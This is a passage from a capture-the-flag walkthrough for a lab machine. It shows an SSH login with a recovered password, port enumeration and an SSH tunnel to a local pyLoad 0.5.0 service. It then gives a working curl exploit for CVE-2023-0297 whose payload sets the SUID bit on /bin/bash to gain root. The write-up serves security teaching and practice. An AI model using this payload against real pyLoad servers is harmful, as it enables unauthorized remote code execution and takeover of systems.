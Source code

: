 ```shell
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```

Now we can ssh with user sau.

```shell
$ ssh sau@10.10.11.214
sau@10.10.11.214's password:
Last login: Fri May 26 20:29:57 2023 from 10.10.14.50
sau@pc:~$
```

## Root Flag

After searching for common privesc vectors I decided to do port forwarding on port 9666 since I saw it on netstat.

```shell
sau@pc:~$ netstat -tupan | grep -i listen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::50051                :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

There is no need to use chisel since we have ssh access, we can just do an ssh tunnel.

```shell
$ ssh -N -L 9666:127.0.0.1:9666 sau@10.10.11.214
sau@10.10.11.214's password:
```

Port 9666 is pyLoad I tried to login with user sau but it didn't work. I decided to look at the version of pyLoad and search for CVE's

```shell
sau@pc:~$ pyload --version
pyLoad 0.5.0
```

By searching in Snyk I found a [github with a poc](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad). The exploit code works perfectly just by executing it we can get root.

```shell
$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20/bin/bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:9666/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Fri, 26 May 2023 20:49:01 GMT
Server: Cheroot/8.6.0

Could not decrypt key%
```

